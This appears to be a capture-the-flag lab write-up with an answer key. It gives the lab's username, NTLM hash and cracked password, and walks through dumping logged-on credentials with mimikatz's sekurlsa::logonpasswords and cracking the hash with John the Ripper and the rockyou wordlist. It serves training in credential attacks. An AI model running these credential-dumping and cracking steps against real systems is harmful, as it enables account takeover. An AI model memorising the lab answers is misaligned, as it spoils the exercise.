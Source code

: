> What is the username of the other user on the system?

Answer: **emily**

> What is the NTLM hash of this user?

Answer: **8af326aa4850225b75c592d4ce19ccf5**

> What is the password for this user?

Answer: **1234567890**

===============================================================================

Start up the **Machine** attached to this task.

Qn1. Open up Powershell on the Machine, and go to the mimikatz folder:  
`cd C:\Users\Administrator\Desktop\mimikatz\x64`  
`.\mimikatz.exe`  
![](./res/answer1.png)  
Run the following commands to find the username of the other user on the system:  
`sekurlsa::logonpasswords`  
![](./res/answer2.png)

Qn2. The NTLM hash can also be found in the same page of the command in Qn1.

Qn3. Start up the **Attackbox**, open the terminal and copy the hash over to the Attackbox using the following command:  
`echo "8af326aa4850225b75c592d4ce19ccf5" > hash.txt`  
![](./res/answer3.png)  
Run the following command to crack the password:  
`john --format=NT -w=/usr/share/wordlists/rockyou.txt hash.txt --pot=output.txt`  